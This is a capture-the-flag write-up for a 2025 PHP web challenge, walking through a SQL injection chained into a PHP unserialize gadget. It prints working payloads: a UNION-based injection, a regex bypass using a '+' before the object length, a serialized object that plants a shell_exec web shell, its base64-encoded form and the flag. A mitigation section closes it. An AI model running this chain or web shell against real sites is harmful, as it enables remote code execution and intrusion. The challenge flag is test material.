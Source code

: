 ```yaml
---
title: Everyone loves canteen food
author: Poory
description: Welcome to the canteen's online menu, where you can check out the daily specials and their prices. But is everything as appetizing as it seems?
categories:
    - Web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **PHP** website offering canteen food which can be filtered by a simple input
    **- Key Discoveries:** Input is processed via **SQL** and **PHP** `unserialize`
    **- Vulnerability:** The **SQL** query is injectable making the used **PHP** `unserialize` exploitable
    **- Exploitation:** Bypassing the **PHP** `unserialize` object regex via a `+` before the `uiv` part will result in RCE

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to exploit a **PHP** unserialize vulnerability via **SQL** injection, bypassing some weak regex filters.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a look at the website, we are welcomed by a beautiful gif showing all of the available food and some price input field with which we can filter the offered food. It is displaying all the items cheaper than the provided value:

![landing page](ctf/writeups/cscg/everyonelovescanteenfood/landing_page.png "landing page")

Clicking on the linked admin panel at the top greets us with a warm welcome message:

```
Only access allowed for canteen admin!!!
```

For this challenge, the source code is provided. The web server is implemented with plain **PHP** v7.1 - the exact **PHP** version will be important later. The flag itself is hidden in a `flag.txt` file with restrictive access flags and is being controlled by the `root` user. Next to the flag file is a `readflag` binary with which we can read out the flag. This is a typical RCE challenge setup.
<span>
The web server uses the [MVC pattern](https://de.wikipedia.org/wiki/Model_View_Controller) to provide the interactive functionality. There is an `AdminController.php` and a `CanteenController.php`, each with its appropriate `AdminModel.php` and `CanteenModel.php`. In addition to the capabilities of a normal user, the admin user can also access the logs of the website with the functionality in its controller. In the `AdminModel`, the class has some interesting functions like `__wakeup`, which will become important later. The `CanteenModel`, which is used by every normal user, implements two functions to obtain the data shown on the landing page. The first one `getFood` just fetches all of the food from the database, adds a log to `log.txt` and rerandomizes the prices for each food. The second one `filterFood` filters the shown food by applying the user input to a **SQL** query and thus fetching only a limited amount of the food. Both of these functions also contain some functionality for unserialization in specific cases. Having a closer look at these functions immediately reveals the following vulnerabilities:

- **SQL** injection - The user input `$price_param` for the `filterFood` function is concatenated with the query without any sanitization and prepared statements:

```php
$sql = "SELECT * FROM food where price < " . $price_param;
```

- **PHP** Unserialize - Probably for backwards compatibility, some parts of the **SQL** query result containing the `oldvalue` attribute are deserialized:

```php
if($obj->oldvalue !== '') {
    $dec_result = base64_decode($obj->oldvalue);
    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
        return 'Not allowed';
    }
    $uns_result = unserialize($dec_result);
```

Having these vulnerabilities, `filterFood` is the more interesting function, as we control the input parameter for this function.

# 3. SQL injection<a id="SQL injection"></a>
At first, we should analyze how to exploit the **SQL** injection as the called `unserialize` function is dependent on the results of the **SQL** query. The `SELECT` query is ideal for a `UNION` attack with which we can append arbitrary data to the rows from the database matching the initial query. So, using an **SQL** injection payload like:

```sql
500 UNION SELECT 0 AS id, 'Some very juicy meal' AS name, '' AS oldvalue, 0 AS price;
```

we get back the following confirming our successful **SQL** injection:

![sqli](ctf/writeups/cscg/everyonelovescanteenfood/sqli.png "sqli")

This means if we add a legitimate value for `oldvalue`, our user input will be processed by `unserialize`.

# 4. PHP unserialize<a id="php unserialize"></a>
Deserialization is a process where serialized data is converted back to actual data. The **PHP** `unserialize` will take a string and will create instantiated objects, arrays, integers, booleans and other stuff. Each of these data types has its own prefix. For example objects got the prefix `O:` followed by the length of the class name, the class name itself as a string and its attribute fields also written with the serialized notation like for example `O:1:"a":1:{s:5:"value";s:3:"100";}`. The **PHP** [documentation](https://www.php.net/manual/en/function.unserialize.php) describes some interesting internal behaviour:

```
If the variable being unserialized is an object, after successfully reconstructing the object, PHP will automatically attempt to call the `__unserialize` or `__wakeup()` methods (if one exists).
```

In the `AdminModel.php` we will find the implementation of the `AdminModel` for logging purposes. The class also has a `__wakeup` method creating an arbitrary file with arbitrary content:

```php
AdminModel {
    ...
    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);
    }
    ...
}
class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);
    }
}
```

This is a great target for the deserialization. So maybe we can just inject with the **SQL** vulnerability some payload like:

```php
O:10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

which creates a **PHP** file named `innocent.php` executing arbitrary commands given via the URL parameter `cmd`. Unfortunately, there is a little twist.
Before the `unserialize` call, the data is checked with a regex filter:

```php
if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
    return 'Not allowed';
}
```

The regex checks for strings starting with the prefix `O:`, followed by some digits and an arbitrary string. There are several data types you can deserialize, like integer, boolean, arrays, but also custom objects by starting with `C:`. Sadly, custom objects are not applicable in this case as none of the **PHP** classes implement `Serializable` and will give us RCE.
<span>
There must be another way to bypass the regex, something that's not obvious at first glance. The code is the best documentation, so let's dive into the implementation of **PHP** `unserialize`. We have to be careful with the version as the challenge doesn't use the latest **PHP** version, but v7.1. For the implementation, **PHP** uses the [re2c](https://re2c.org/) lexer generator. The length value `uiv` of the serialized object is parsed by the `parse_uiv` function, which implements some [interesting behaviour](https://github.com/php/php-src/blob/PHP-7.1.3/ext/standard/var_unserializer.re#L367). If it exists, it will skip a leading `+` character. With this information, we can easily bypass the regex as it only checks for digits in the `uiv` part.

# 5. Exploitation<a id="exploitation"></a>
Now we have to chain our vulnerabilities. For the `unserialize` call, we will use the following payload, which is very similar to the already mentioned one, but this time we add a `+` before the `uiv` part:

```php
O:+10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

Because of the implementation of the `oldvalue` check, we have to encode it with base64. Adding it to our **SQL** injection, we get our payload:

```php
500 UNION SELECT 0 AS id, 'payload' AS name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTI6Imlubm9jZW50LnBocCI7czoxMDoibG9nY29udGVudCI7czozNzoiPD9waHAgZWNobyhzaGVsbF9leGVjKCRfR0VUWydjbWQnXSkpOyI7fQ==' AS oldvalue, 0 AS price;
```

Submitting this payload via the price input field will create a new **PHP** file. Accessing the server on the path `/innocent.php?cmd=/readflag` will then give us the flag.

# 5. Mitigation<a id="mitigation"></a>
This web server has some fundamental flaws. Starting with the **SQL** injection, you should always validate and sanitize any input. This vulnerability could have been simply prevented by using prepared statements. Moreover, the use of `unserialize` always comes with its risks, as presented with this challenge. So don't use `unserialize` if not necessary. Finally, don't use regex for filtering! Instead, rely on **PHP**'s built-in filtering functions like `filter_var` and others. Using regex for input validation can be overly error-prone, especially with complex patterns or edge cases, and may lead to unexpected behavior and security risks.


# 7. Flag<a id="flag"></a>
dach2025{sh1ty_r3g3x_w0nt_s4fe_y0u}
